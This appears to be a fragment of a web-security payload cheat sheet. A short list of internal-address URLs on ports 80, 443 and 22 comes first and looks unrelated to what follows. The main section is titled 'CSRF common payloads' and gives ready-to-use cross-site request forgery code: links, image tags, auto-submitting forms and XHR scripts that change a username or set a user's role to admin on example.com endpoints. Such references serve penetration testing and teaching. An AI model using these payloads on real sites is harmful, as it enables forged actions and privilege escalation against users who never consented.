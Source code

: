 ```http
http://0.0.0.0:80
```
```http
http://0.0.0.0:443
```
```http
http://0.0.0.0:22
```
--------------------------------------------------------------------------------

# CSRF common payloads

### On click submit - HTML GET
```html
<a href="http://www.example.com/api/setusername?username=CSRF">Click Me</a>
```
### Auto submit - HTML GET
```html
<img src="http://www.example.com/api/setusername?username=CSRF">
```
### On click submit - HTML POST

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRF" />
 <input type="submit" value="Submit Request" />
</form>
```
### Auto submit - HTML POST
```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```
### JSON GET
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```
### JSON POST
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```